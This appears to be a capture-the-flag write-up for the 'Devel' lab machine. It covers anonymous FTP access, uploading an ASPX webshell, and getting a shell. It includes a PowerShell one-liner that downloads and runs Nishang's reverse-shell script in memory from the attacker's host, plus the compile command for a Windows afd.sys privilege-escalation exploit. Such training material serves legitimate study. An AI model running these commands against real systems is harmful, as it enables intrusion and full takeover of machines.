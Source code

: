 <p align="center">
  <img width="300" src="https://user-images.githubusercontent.com/43796175/107217985-ff302900-69dc-11eb-999b-b1da568d1ff9.jpg" alt="DEVEL: Write Up">
</p>


# 01: Information Gathering

For starting, run nmap with a basic scan:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400057-70e89f80-6acf-11eb-95f3-6870ccbbe0b0.jpg"></p>

Two open ports can be seen, 21 FTP and 80 HTTP. Now, run again nmap but this time with an more advanced scan against the ports found:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400771-274c8480-6ad0-11eb-84f7-7b9a8b83b733.jpg"></p>

In this point, you can think about login in FTP with Anonymous credentials (port 21) and go more deep through HTTP and fuzzing (port 80).

# 02: Threat Modeling

Login in FTP with username and password "Anonymous" is possible:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107401864-4bf52c00-6ad1-11eb-9a7b-f795670ea890.jpg"></p>

Think if you can reach any files in the directory through which you had FTP access. For example, try to get through HTTP request the image "welcome.png":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107403079-b0fd5180-6ad2-11eb-80f8-092abfe6745e.jpg"></p>

Perfect, now you can try upload a webshell and visualize it in the browser:

# 03: Vulnerability Analysis

You can search the webshell necessary simply googling it. I found the next webshell which work fine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413191-77324800-6ade-11eb-9dea-e66478f2d98e.jpg"></p>

<p align="center">https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx</p>

With FTP upload the webshell, using "put" command for this purpose:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413380-b1034e80-6ade-11eb-9557-089ca6cb717b.jpg"></p>

Try to see the webshell through browser, in http://10.10.10.5/cmdasp.aspx:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413825-34bd3b00-6adf-11eb-825d-a8d618e3ae18.jpg"></p>

You can see that is possible run commands efectly, then the more obviusly thought is get a reverse shell. For this, use Nishang that is a framework and collection of scripts and payloads which enables usage of PowerShell, in concret, you go to use the module of shells PS "Invoke-PowerShellTcp.ps1":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107414596-39362380-6ae0-11eb-84c9-9d326bf577c9.jpg"></p>

<p align="center">https://github.com/samratashok/nishang/tree/master/Shells</p>

# 04: Exploitation

Download the RAW file of this module:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107417782-f1190000-6ae3-11eb-8bb1-4e254b43e2b2.jpg"></p>

A good approach is execute the reverseShell in memory, like Nishang project describe:

<p align="center">https://github.com/samratashok/nishang</p>

"*Method 1. Use the in-memory dowload and execute: Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.*"

The next line is used for this:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

Change the value necessary with your VPN IP address and port:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<YourVpnIP>:1234/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <YourVpnIP> -Port 1337
```

Configure a python server in port 1234 and netcat listening in the port 1337:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107417029-2cff9580-6ae3-11eb-979b-a16af27eb2cc.jpg"></p>

Paste the code in the webShell and you recive the reverse connection:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107418832-2114d300-6ae5-11eb-80d1-e63f9dca3e5d.jpg"></p>

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107418604-dabf7400-6ae4-11eb-95ef-d829c5de8ee1.jpg"></p>

# 05: Post-Exploitation

The first step for me is run "*systeminfo*" command in Windows a look for "Hotfix(s)" in the OS:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107423243-1ad52580-6aea-11eb-9668-1ac1c56fdc78.jpg"></p>

From the above information, you know that:

* OS is Windows 7 Enterprise
* OS Version 6.1.7600
* OS has no anyone Hotfix done

Then, a quickly search in Google gives some one results, you wanna see the results relationated with "*afd.sys*":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107424736-02fea100-6aec-11eb-9759-3a1110216d4d.jpg"></p>

The vulnerability make reference to the [Ancillary Function Driver](https://file.info/windows/afd_sys.html) (AFD) supports Windows sockets applications and is contained in the afd.sys file. The afd.sys driver runs in kernel mode and manages the Winsock TCP/IP communications protocol. 

An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel.

An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability.

An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges).

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107425166-a2bc2f00-6aec-11eb-8601-267fe5ab42a9.jpg"></p>

<p align="center">https://www.exploit-db.com/exploits/40564</p>

Download the exploit:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107426493-4ce88680-6aee-11eb-9d37-7a53672b5f7e.jpg"></p>

And now you need compile this exploit with *i686-w64-mingw32-gcc*:

``
i686-w64-mingw32-gcc exploit.c -o okExploit.exe -lws2_32
``

The parameter "*-lws2_32*" specific the library to use for compile:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107426914-d26c3680-6aee-11eb-9bd0-d666c78aec4d.jpg"></p>


